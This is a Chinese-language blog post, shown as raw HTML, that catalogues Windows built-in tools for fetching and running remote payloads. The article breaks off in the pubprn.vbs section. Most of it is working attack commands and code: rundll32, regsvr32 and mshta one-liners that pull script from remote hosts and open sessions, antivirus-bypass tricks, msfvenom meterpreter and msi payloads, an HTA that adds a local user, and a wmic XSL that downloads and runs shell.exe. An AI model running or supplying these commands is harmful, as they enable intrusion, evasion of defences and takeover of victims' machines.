

<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.8.0">
  <meta charset="utf-8">
  
  <title>windows远程加载Payload代码执行归纳总结 | sm0nk&#39;s blog</title>

  <!-- keywords -->
  

  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <meta name="description" content="概览说明总体来讲高频使用的上线方法包括powershell、rundll32 、regsvr32、mshta，其他根据具体场景进行结合利用（参考免杀），像powershell、wmi都是综合的专题。类似powershell downloadstring、mshta、rundll32 都可以实现内存加载，无文件落地。">
<meta name="keywords" content="远程下载">
<meta property="og:type" content="article">
<meta property="og:title" content="windows远程加载Payload代码执行归纳总结">
<meta property="og:url" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/index.html">
<meta property="og:site_name" content="sm0nk&#39;s blog">
<meta property="og:description" content="概览说明总体来讲高频使用的上线方法包括powershell、rundll32 、regsvr32、mshta，其他根据具体场景进行结合利用（参考免杀），像powershell、wmi都是综合的专题。类似powershell downloadstring、mshta、rundll32 都可以实现内存加载，无文件落地。">
<meta property="og:locale" content="default">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210716151511033.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210716151521639.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210720091200285.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210715183100996.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210716172006457.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210719235358971.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210720092417656.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210720092934150.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210726231746676.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210726231704103.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210720100539953.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210720100917134.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210720101604731.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210717103421131.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210717104132728.png">
<meta property="og:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210714173344492.png">
<meta property="og:updated_time" content="2021-07-27T07:46:24.140Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="windows远程加载Payload代码执行归纳总结">
<meta name="twitter:description" content="概览说明总体来讲高频使用的上线方法包括powershell、rundll32 、regsvr32、mshta，其他根据具体场景进行结合利用（参考免杀），像powershell、wmi都是综合的专题。类似powershell downloadstring、mshta、rundll32 都可以实现内存加载，无文件落地。">
<meta name="twitter:image" content="http://yoursite.com/2020/09/08/Windows远程加载Payload代码执行归纳总结/image-20210716151511033.png">
  
    <link rel="alternative" href="/atom.xml" title="sm0nk&#39;s blog" type="application/atom+xml">
  
  
    <link rel="icon" href="http://p6.sinaimg.cn/3607464725/180/71341468803657">
  
  <link rel="stylesheet" href="/css/style.css">
  
  

  <script src="//cdn.bootcss.com/require.js/2.3.2/require.min.js"></script>
  <script src="//cdn.bootcss.com/jquery/3.1.1/jquery.min.js"></script>

  
</head></html>
<body>
  <div id="container">
    <div id="particles-js"></div>
    <div class="left-col">
    <div class="overlay"></div>
<div class="intrude-less">
	<header id="header" class="inner">
		<a href="/" class="profilepic">
			
			
			
		</a>

		<hgroup>
		  <h1 class="header-author"><a href="/">sm0nk</a></h1>
		</hgroup>

		

		
			<div class="switch-btn">
				<div class="icon">
					<div class="icon-ctn">
						<div class="icon-wrap icon-house" data-idx="0">
							<div class="birdhouse"></div>
							<div class="birdhouse_holes"></div>
						</div>
						<div class="icon-wrap icon-ribbon hide" data-idx="1">
							<div class="ribbon"></div>
						</div>
						
						
					</div>
					
				</div>
				<div class="tips-box hide">
					<div class="tips-arrow"></div>
					<ul class="tips-inner">
						<li>菜单</li>
						<li>标签</li>
						
						
					</ul>
				</div>
			</div>
		

		<div class="switch-area">
			<div class="switch-wrap">
				<section class="switch-part switch-part1">
					<nav class="header-menu">
						<ul>
						
							<li><a href="/categories/攻防渗透/">攻防渗透</a></li>
				        
							<li><a href="/categories/编程之道/">编程之道</a></li>
				        
							<li><a href="/categories/归纳总结/">归纳总结</a></li>
				        
							<li><a href="/categories/认知独省/">认知独省</a></li>
				        
						</ul>
					</nav>
					<nav class="header-nav">
						<div class="social">
							
								<a class="mail" target="_blank" href="mailto:sm0nk@qq.com" title="mail">mail</a>
					        
								<a class="weibo" target="_blank" href="http://weibo.com/shellr00t" title="weibo">weibo</a>
					        
						</div>
					</nav>
				</section>
				
				
				<section class="switch-part switch-part2">
					<div class="widget tagcloud" id="js-tagcloud">
						<a href="/tags/CTF/" style="font-size: 10px;">CTF</a> <a href="/tags/SQL注入/" style="font-size: 10px;">SQL注入</a> <a href="/tags/blog/" style="font-size: 10px;">blog</a> <a href="/tags/pentest/" style="font-size: 10px;">pentest</a> <a href="/tags/python/" style="font-size: 20px;">python</a> <a href="/tags/seleinum/" style="font-size: 10px;">seleinum</a> <a href="/tags/struts2/" style="font-size: 10px;">struts2</a> <a href="/tags/业务逻辑/" style="font-size: 10px;">业务逻辑</a> <a href="/tags/代理转发/" style="font-size: 10px;">代理转发</a> <a href="/tags/创新/" style="font-size: 10px;">创新</a> <a href="/tags/工控安全/" style="font-size: 10px;">工控安全</a> <a href="/tags/应急/" style="font-size: 20px;">应急</a> <a href="/tags/接口安全/" style="font-size: 10px;">接口安全</a> <a href="/tags/渗透/" style="font-size: 10px;">渗透</a> <a href="/tags/爆破/" style="font-size: 10px;">爆破</a> <a href="/tags/语言安全/" style="font-size: 10px;">语言安全</a> <a href="/tags/远程下载/" style="font-size: 10px;">远程下载</a>
					</div>
				</section>
				
				
				

				
			</div>
		</div>
	</header>				
</div>
    </div>
    <div class="mid-col">
      <nav id="mobile-nav">
  	<div class="overlay">
  		<div class="slider-trigger"></div>
  		<h1 class="header-author js-mobile-header hide">sm0nk</h1>
  	</div>
	<div class="intrude-less">
		<header id="header" class="inner">
			<div class="profilepic">
				
			</div>
			<hgroup>
			  <h1 class="header-author">sm0nk</h1>
			</hgroup>
			
			<nav class="header-menu">
				<ul>
				
					<li><a href="/categories/攻防渗透/">攻防渗透</a></li>
		        
					<li><a href="/categories/编程之道/">编程之道</a></li>
		        
					<li><a href="/categories/归纳总结/">归纳总结</a></li>
		        
					<li><a href="/categories/认知独省/">认知独省</a></li>
		        
		        <div class="clearfix"></div>
				</ul>
			</nav>
			<nav class="header-nav">
				<div class="social">
					
						<a class="mail" target="_blank" href="mailto:sm0nk@qq.com" title="mail">mail</a>
			        
						<a class="weibo" target="_blank" href="http://weibo.com/shellr00t" title="weibo">weibo</a>
			        
				</div>
			</nav>
		</header>				
	</div>
</nav>
      <div class="body-wrap"><article id="post-Windows远程加载Payload代码执行归纳总结" class="article article-type-post" itemscope itemprop="blogPost">
  
    <div class="article-meta">
      <a href="/2020/09/08/Windows远程加载Payload代码执行归纳总结/" class="article-date">
  	<time datetime="2020-09-08T07:55:15.000Z" itemprop="datePublished">2020-09-08</time>
</a>
    </div>
  
  <div class="article-inner">
    
      <input type="hidden" class="isFancy">
    
    
      <header class="article-header">
        
  
    <h1 class="article-title" itemprop="name">
      windows远程加载Payload代码执行归纳总结
      
    </h1>
  

      </header>
      
      <div class="article-info article-info-post">
        
	<div class="article-tag tagcloud">
		<ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/远程下载/">远程下载</a></li></ul>
	</div>

        
	<div class="article-category tagcloud">
	<a class="article-category-link" href="/categories/攻防渗透/">攻防渗透</a>
	</div>


        
        <div class="clearfix"></div>
      </div>
      
    
    <div class="article-entry" itemprop="articleBody">
      
        <h1><span id="概览说明">概览说明</span></h1><p>总体来讲高频使用的上线方法包括powershell、rundll32 、regsvr32、mshta，其他根据具体场景进行结合利用（参考免杀），像powershell、wmi都是综合的专题。类似powershell downloadstring、mshta、rundll32 都可以实现内存加载，无文件落地。</p>
<a id="more"></a>
<!-- toc -->
<ul>
<li><a href="#命令详解">命令详解</a><ul>
<li><a href="#rundll32">rundll32</a></li>
<li><a href="#regsvr32">regsvr32</a><ul>
<li><a href="#远程加载sct文件">远程加载sct文件</a></li>
<li><a href="#dll上线">dll上线</a></li>
<li><a href="#bypass">bypass</a></li>
</ul>
</li>
<li><a href="#mshta">mshta</a><ul>
<li><a href="#基础说明">基础说明</a></li>
<li><a href="#jsvbs">Js&amp;vbs</a></li>
<li><a href="#正常上线">正常上线</a></li>
<li><a href="#注意事项">注意事项</a></li>
<li><a href="#报错类">报错类</a></li>
</ul>
</li>
<li><a href="#msiexec">msiexec</a></li>
<li><a href="#wmic">wmic</a></li>
<li><a href="#ieexec"><strong>IEExec</strong></a></li>
<li><a href="#pubprnvbs">pubprn.vbs</a></li>
<li><a href="#certutil">certutil</a></li>
<li><a href="#bitsadmin">bitsadmin</a></li>
<li><a href="#regasmregsvc">regasm&amp;regsvc</a></li>
<li><a href="#msxslexe">MSXSL.EXE</a></li>
<li><a href="#windows-wget">windows-wget</a></li>
<li><a href="#ftp">FTP</a></li>
<li><a href="#powershell">powershell</a></li>
<li><a href="#unc">UNC</a><ul>
<li><a href="#ipc">ipc$</a></li>
<li><a href="#copy">copy</a></li>
<li><a href="#cmdexe">cmd.exe</a></li>
<li><a href="#msbuild">msbuild</a></li>
<li><a href="#odbcconf">odbcconf</a></li>
<li><a href="#cscript">cscript</a></li>
<li><a href="#pcalua">pcalua</a></li>
</ul>
</li>
</ul>
</li>
<li><a href="#参考">参考</a><ul>
<li><a href="#url">URL</a></li>
<li><a href="#init">INIT</a></li>
</ul>
</li>
</ul>
<!-- tocstop -->
<h1><span id="命令详解">命令详解</span></h1><h2><span id="rundll32">rundll32</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。</span><br><span class="line">项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git</span><br><span class="line"></span><br><span class="line">步骤一：开始运行JSRat，监听本地8888端口。</span><br><span class="line">步骤二：通过url访问，可以查看恶意代码。</span><br><span class="line">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try&#123;h.Send();b=h.ResponseText;eval(b);&#125;catch(e)&#123;new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);&#125;</span><br><span class="line">步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：</span><br></pre></td></tr></table></figure>
<p></p>
<p></p>
<p>参考：<a href="https://github.com/3gstudent/Javascript-Backdoor" target="_blank" rel="noopener">https://github.com/3gstudent/Javascript-Backdoor</a></p>
<p>Rundll32还可以用来调用某些内联脚本：</p>
<p><em>未成功</em></p>
<p><em>其中，负责执行网络调用的是rundll32.exe，而命令会将下载的Payload文件写入到IE本地缓存之中。</em></p>
<figure class="highlight cmd"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();</span><br></pre></td></tr></table></figure>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct");this.close()</span><br></pre></td></tr></table></figure>
<p></p>
<h2><span id="regsvr32">regsvr32</span></h2><h3><span id="远程加载sct文件">远程加载sct文件</span></h3><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br></pre></td><td class="code"><pre><span class="line">regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行</span><br><span class="line">在目标机上执行：</span><br><span class="line">regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll</span><br><span class="line"></span><br><span class="line">regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll</span><br><span class="line">regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll</span><br><span class="line">regsvr32 /u /s /i:http://site.com/js.png scrobj.dll</span><br><span class="line"></span><br><span class="line">可以通过自己构造.sct文件;js.png也是如此，去下载执行我们的程序</span><br><span class="line"><span class="php"><span class="meta">&lt;?</span>XML version=<span class="string">"1.0"</span><span class="meta">?&gt;</span></span></span><br><span class="line"><span class="tag">&lt;<span class="name">scriptlet</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;<span class="name">registration</span></span></span><br><span class="line"><span class="tag">    <span class="attr">progid</span>=<span class="string">"ShortJSRAT"</span></span></span><br><span class="line"><span class="tag">    <span class="attr">classid</span>=<span class="string">"&#123;10001111-0000-0000-0000-0000FEEDACDC&#125;"</span> &gt;</span></span><br><span class="line">    <span class="tag">&lt;<span class="name">script</span> <span class="attr">language</span>=<span class="string">"JScript"</span>&gt;</span><span class="undefined"></span></span><br><span class="line"><span class="undefined">        &lt;![CDATA[</span></span><br><span class="line"><span class="undefined">            ps  = "cmd.exe /c calc.exe";</span></span><br><span class="line"><span class="undefined">            new ActiveXObject("WScript.Shell").Run(ps,0,true);</span></span><br><span class="line"><span class="undefined">        ]]&gt;</span></span><br><span class="line"><span class="undefined"></span><span class="tag">&lt;/<span class="name">script</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;/<span class="name">registration</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;/<span class="name">scriptlet</span>&gt;</span></span><br></pre></td></tr></table></figure>
<p></p>
<h3><span id="dll上线">dll上线</span></h3><p>regsvr32 artifact16.dll</p>
<p><em>But 有个弹窗, 点击确定后就掉线了</em>    </p>
<p></p>
<h3><span id="bypass">bypass</span></h3><p>一般杀软 拦截情况为：http和scrobj.dll的组合</p>
<p>改个名字可以绕过，但是记得操作的时候在链接的dll目录下进行！</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">regsvr32.exe /i:http://example.com/file.sct /u /s Myscrobj.dll</span><br></pre></td></tr></table></figure>
<ul>
<li>改变 scrobj.dll 的名称</li>
</ul>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">copy c:\windows\system32\scrobj.dll NothingToSeeHere.dll</span><br><span class="line">Regsvr32.exe /u /s /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct NothingToSeeHere.dll</span><br></pre></td></tr></table></figure>
<ul>
<li>为 scrobj.dll 创建符号链接</li>
</ul>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">Mklink Dave_LovesThis.dll c:\windows\system32\scrobj.dll</span><br><span class="line">Regsvr32.exe /u /s /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Dave_LovesThis.dll</span><br></pre></td></tr></table></figure>
<ul>
<li>利用 NTFS ADS 功能绕过</li>
</ul>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">type c:\Windows\System32\scrobj.dll &gt; Just_A_Normal_TextFile.txt:PlacingTheDLLHere</span><br><span class="line">Regsvr32.exe /u /s /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Just_A_Normal_TextFile.txt:PlacingTheDLLHere</span><br></pre></td></tr></table></figure>
<ul>
<li>先将 sct 文件放到本地，然后执行</li>
</ul>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">bitsadmin /transfer download /download /priority normal https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct %TEMP%\test.txt &amp;&amp; regsvr32.exe /s /u /i:%TEMP%\test.txt scrobj.dllRegsvr32.exe /u /s /i:Regsvr32_calc.sct scrobj.dll</span><br></pre></td></tr></table></figure>
<ul>
<li>直接调用scrobj.dll的DllInstall方法</li>
</ul>
<blockquote>
<p>其实可以不用regsvr32.exe，使用他的目的是因为他是 windows 自带的，有微软签名，如果不考虑这个的情况下其实可以写程序直接调用 scrobj.dll 的 DllInstall 方法实现代码执行。C#代码如下：</p>
</blockquote>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">using System;using System.Reflection;using System.Runtime.InteropServices;using System.ComponentModel;namespace scrobj_call_csharp&#123;    static class NativeMethod    &#123;        [DllImport(&quot;kernel32&quot;, SetLastError = true, CharSet = CharSet.Ansi)]        public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);        [DllImport(&quot;kernel32&quot;, CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);    &#125;    class Program    &#123;        [UnmanagedFunctionPointer(CallingConvention.StdCall, CharSet = CharSet.Unicode)]        private delegate Int32 DllInstall(Boolean bInstall, String pszCmdLine);        static void Main(string[] args)        &#123;            const string dllPath = &quot;scrobj.dll&quot;;            IntPtr hDllScr = NativeMethod.LoadLibrary(dllPath);            if (hDllScr == IntPtr.Zero)            &#123;                var lasterror = Marshal.GetLastWin32Error();                var innerEx = new Win32Exception(lasterror);                innerEx.Data.Add(&quot;LastWin32Error&quot;, lasterror);                throw new Exception(&quot;Can&apos;t load Dll &quot; + dllPath, innerEx);            &#125;            IntPtr DllInstallProcAddr = NativeMethod.GetProcAddress(hDllScr, &quot;DllInstall&quot;);            DllInstall fDllInstall = (DllInstall)Marshal.GetDelegateForFunctionPointer(DllInstallProcAddr, typeof(DllInstall));            fDllInstall(false, &quot;http://192.168.50.129:80/payload.sct&quot;);        &#125;    &#125;&#125;</span><br></pre></td></tr></table></figure>
<p>成功调用scrobj.dll的DllInstall 方法实现代码执行。</p>
<h2><span id="mshta">mshta</span></h2><h3><span id="基础说明">基础说明</span></h3><p>实际上，mshta跟cscript/wscript是一类的，但是它还可以执行内联脚本，我们可以通过内联脚本来下载并执行Payload代码：</p>
<h3><span id="jsampvbs">Js&amp;vbs</span></h3><p>它支持命令行参数，可以接收JS和VBS的方法。看示例（在命令行下测试）：</p>
<p>JS:</p>
<blockquote>
<p>mshta vbscript:window.execScript(“alert(‘hello world!’);”,”javascript”)</p>
</blockquote>
<p>VBS:</p>
<blockquote>
<p>mshta javascript:window.execScript(“msgBox(‘hello world!’):window.close”,”vbs”)</p>
</blockquote>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">mshta vbscript:Close(Execute("GetObject(""script:http://192.168.214.1:6677/sct.sct"")"))</span><br></pre></td></tr></table></figure>
<p>ps:<em>有请求，但并未执行。</em></p>
<h3><span id="正常上线">正常上线</span></h3><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">mshta用于执行.hta文件，而hta是HTML Applocation 的缩写，也就是HTML应用程序。而hta中也支持VBS。所以我们可以利用hta来下载文件。mshta http://192.168.28.128/run.htarun.hta内容如下：<span class="tag">&lt;<span class="name">HTML</span>&gt;</span> <span class="tag">&lt;<span class="name">meta</span> <span class="attr">http-equiv</span>=<span class="string">"Content-Type"</span> <span class="attr">content</span>=<span class="string">"text/html; charset=utf-8"</span>&gt;</span><span class="tag">&lt;<span class="name">HEAD</span>&gt;</span> <span class="tag">&lt;<span class="name">script</span> <span class="attr">language</span>=<span class="string">"VBScript"</span>&gt;</span><span class="undefined">Window.ReSizeTo 0, 0Window.moveTo -2000,-2000Set objShell = CreateObject("Wscript.Shell")objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令self.close</span><span class="tag">&lt;/<span class="name">script</span>&gt;</span><span class="tag">&lt;<span class="name">body</span>&gt;</span>demo<span class="tag">&lt;/<span class="name">body</span>&gt;</span><span class="tag">&lt;/<span class="name">HEAD</span>&gt;</span> <span class="tag">&lt;/<span class="name">HTML</span>&gt;</span></span><br></pre></td></tr></table></figure>
<p>CS自带的powershell的 html application</p>
<p></p>
<h3><span id="注意事项">注意事项</span></h3><p>mshta支持<code>http</code>和<code>htpps</code></p>
<p>但mshta在执行hta脚本时，类似于浏览器，会根据链接返回头进行对应的解析操作，所以这里只有当返回头为html时才会运行</p>
<p>否则会被当普通文本进行解析</p>
<p>对于github的代码，返回的格式为<code>text/plain</code></p>
<p>如果使用如下命令执行：</p>
<figure class="highlight javascript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">mshta https:<span class="comment">//raw.githubusercontent.com/3gstudent/test/master/calc.hta</span></span><br></pre></td></tr></table></figure>
<p>会把代码当成<code>text</code>，无法解析成html，导致脚本无法执行</p>
<p>但是我们可以换一个思路：</p>
<figure class="highlight javascript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">将hta文件传到github的博客下面，就能够被解析成html，实现代码执行</span><br></pre></td></tr></table></figure>
<p>将hta文件上传至github博客下面，地址为<a href="https://3gstudent.github.io/test/calc.hta" target="_blank" rel="noopener">https://3gstudent.github.io/test/calc.hta</a></p>
<p>执行如下命令：</p>
<figure class="highlight javascript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">mshta https:<span class="comment">//3gstudent.github.io/test/calc.hta</span></span><br></pre></td></tr></table></figure>
<p>成功弹出计算器</p>
<p></p>
<h3><span id="报错类">报错类</span></h3><p>弹框提示此计算机上的安全设置禁止访问其它域的数据源，如下图</p>
<p></p>
<figure class="highlight javascript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">解决方法：IE浏览器<span class="string">`-`</span>Internet选项<span class="string">`-`</span>安全选择<span class="string">`可信站点`</span>，添加博客地址：https:<span class="comment">//3gstudent.github.io/自定义级别`，找到`通过域访问数据源`，选择`启用IE浏览器默认会拦截vbs脚本实现的下载功能</span></span><br></pre></td></tr></table></figure>
<h2><span id="msiexec">msiexec</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">用于安装Windows Installer安装包，可远程执行msi文件。#生成msi包msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi &gt; evil.msi#远程执行msiexec /q /i http://192.168.28.128/evil.msi</span><br></pre></td></tr></table></figure>
<h2><span id="wmic">wmic</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">执行WMIC以下命令从远程服务器下载并运行恶意XSL文件：wmic os get /FORMAT:"http://192.168.28.128/evil.xsl"</span><br></pre></td></tr></table></figure>
<figure class="highlight xml"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="php"><span class="meta">&lt;?</span>xml version=<span class="string">'1.0'</span><span class="meta">?&gt;</span></span><span class="tag">&lt;<span class="name">xsl:stylesheet</span> <span class="attr">version</span>=<span class="string">"1.0"</span>      <span class="attr">xmlns:xsl</span>=<span class="string">"http://www.w3.org/1999/XSL/Transform"</span>      <span class="attr">xmlns:msxsl</span>=<span class="string">"urn:schemas-microsoft-com:xslt"</span>      <span class="attr">xmlns:user</span>=<span class="string">"http://mycompany.com/mynamespace"</span>&gt;</span><span class="tag">&lt;<span class="name">msxsl:script</span> <span class="attr">language</span>=<span class="string">"JScript"</span> <span class="attr">implements-prefix</span>=<span class="string">"user"</span>&gt;</span>   function xml(nodelist) &#123;	var r = new ActiveXObject("WScript.Shell").Run("certutil.exe -urlcache -split -f http://lyshark.com/shell.exe");        var r = new ActiveXObject("WScript.Shell").Run("shell.exe");        return nodelist.nextNode().xml;   &#125;<span class="tag">&lt;/<span class="name">msxsl:script</span>&gt;</span><span class="tag">&lt;<span class="name">xsl:template</span> <span class="attr">match</span>=<span class="string">"/"</span>&gt;</span>   <span class="tag">&lt;<span class="name">xsl:value-of</span> <span class="attr">select</span>=<span class="string">"user:xml(.)"</span>/&gt;</span><span class="tag">&lt;/<span class="name">xsl:template</span>&gt;</span><span class="tag">&lt;/<span class="name">xsl:stylesheet</span>&gt;</span></span><br></pre></td></tr></table></figure>
<p></p>
<p></p>
<h2><span id="ieexec"><strong>IEExec</strong></span></h2><p>需要管理员权限</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。生成Payload：msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe使用管理员身份打开cmd，分别运行下面两条命令。C:\Windows\Microsoft.NET\Framework64\v2.0.50727&gt;caspol.exe -s offC:\Windows\Microsoft.NET\Framework64\v2.0.50727&gt;IEExec.exe http://192.168.28.131/evil.exe</span><br></pre></td></tr></table></figure>
<p>win7 测试失败</p>
<p></p>
<p>Win10 下载exe，执行需要单独命令</p>
<p>下载到缓存目录</p>
<p>C:\Users\xx\AppData\Local\Microsoft\Windows\INetCache\IE\K1C3JB46</p>
<p></p>
<p></p>
<h2><span id="pubprnvbs">pubprn.vbs</span></h2><p>在Windows  7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject()</p>
